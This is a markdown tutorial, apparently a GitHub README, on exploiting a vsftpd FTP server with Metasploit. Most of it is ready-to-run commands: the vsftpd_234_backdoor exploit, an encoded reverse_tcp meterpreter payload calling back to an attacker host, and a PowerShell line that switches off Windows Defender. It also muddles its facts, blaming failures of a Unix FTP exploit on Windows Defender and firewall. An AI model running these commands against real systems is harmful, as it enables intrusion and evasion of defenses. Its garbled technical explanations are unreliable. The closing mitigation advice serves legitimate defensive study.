 #  Vsftpd Penetration Testing with Metasploit

## Introduction
This document provides step-by-step instructions for performing a Vsftpd penetration test using Metasploit. Additionally, it covers common issues encountered, such as security defenses like Windows Defender, and provides insights into mitigation strategies.

## Prerequisites
Before proceeding, ensure you have the following:
- A target machine running a Vsftpd service.
- Metasploit installed on your penetration testing machine (e.g., Kali Linux).
- Proper authorization and permission to test the target system.
- Understanding of Windows security defenses (Windows Defender, firewall settings, etc.).

## Steps for Vsftpd Exploitation Using Metasploit

### 1. Start Metasploit Framework
```bash
msfconsole
```

### 2. Search for Available Vsftpd Exploits
```bash
search vsftpd
```
This command lists all available Vsftpd-related exploits and auxiliary modules.

### 3. Select the Vsftpd Auxiliary Scanner
To check if anonymous login is enabled, use:
```bash
use auxiliary/scanner/ftp/anonymous
```

### 4. Set Target IP Address
```bash
set RHOSTS 192.168.67.1
```

### 5. Execute the Scan
```bash
run
```
If anonymous login is enabled, it will be displayed in the results.

### 6. Check if Vsftpd Port is Open
To check if port 21 is open and accepting connections, run:
```bash
nmap -p 21 192.168.67.1
```
If port 21 is closed or filtered, further exploitation is not possible without additional reconnaissance.

### 7. Attempt Exploitation (If Vulnerable)
If a vulnerable Vsftpd service is found, use an appropriate exploit from Metasploit, such as:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.67.1
exploit
```

### 8. Failure Due to Windows Defender
If the attack fails, Windows Defender or other security measures may be blocking the exploit. Common reasons include:
- Windows Defender detecting and blocking Metasploit payloads.
- The Windows firewall blocking incoming Vsftpd requests.
- The target system having patched vulnerabilities.
- The Vsftpd service running in a sandboxed or protected environment.

### 9. Bypassing Windows Defender (Ethical Considerations)
If authorized, test alternative methods:
- **Encode the Payload:**
  ```bash
  msfvenom -p unix/meterpreter/reverse_tcp LHOST=192.168.67.100 LPORT=4444 -f elf -e x86/shikata_ga_nai > payload.elf
  ```
- **Disable Defender Temporarily (If Permitted):**
  ```powershell
  Set-MpPreference -DisableRealtimeMonitoring $true
  ```
- **Use Encrypted Tunnels:** Try an obfuscated payload with Cobalt Strike or a similar tool.

## Security Best Practices & Mitigation Strategies
If securing a Vsftpd server, follow these best practices:
1. **Disable Anonymous Access**: Ensure only authenticated users can access Vsftpd.
2. **Use Secure Alternatives**: Replace Vsftpd with SFTP (SSH File Transfer Protocol) or FTPS (FTP Secure).
3. **Restrict IP Access**: Limit access to known IP addresses.
4. **Enable Firewall Rules**: Block unauthorized access to port 21.
5. **Monitor Logs**: Regularly check system and Vsftpd logs for unauthorized login attempts.
6. **Apply Updates**: Keep Vsftpd software updated to patch known vulnerabilities.
7. **Use Strong Credentials**: Avoid default or weak usernames and passwords.
8. **Implement Intrusion Detection Systems (IDS)**: Detect and respond to suspicious Vsftpd traffic.

## Conclusion
Performing Vsftpd penetration testing helps identify security weaknesses before attackers exploit them. Always ensure proper authorization before conducting any security tests. If vulnerabilities are found, implement mitigation measures immediately.

---
**Disclaimer:** This document is for educational and authorized security testing purposes only. Unauthorized penetration testing or access to systems without permission is illegal.

